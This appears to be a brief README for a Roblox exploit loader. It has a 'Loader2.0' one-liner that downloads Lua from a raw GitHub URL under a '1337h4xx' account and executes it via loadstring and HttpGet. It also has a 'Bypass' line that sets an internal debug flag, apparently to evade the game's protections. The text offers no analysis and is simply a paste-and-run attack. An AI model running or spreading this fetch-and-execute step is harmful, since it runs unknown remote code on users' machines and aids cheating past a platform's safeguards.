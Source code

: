# Loader2.0
```
loadstring(game:HttpGet('https://raw.githubusercontent.com/1337h4xx/1/refs/heads/main/loader2.0'))()
```

# Bypass
```
setfflag("DebugRunParallelLuaOnMainThread","True");
```
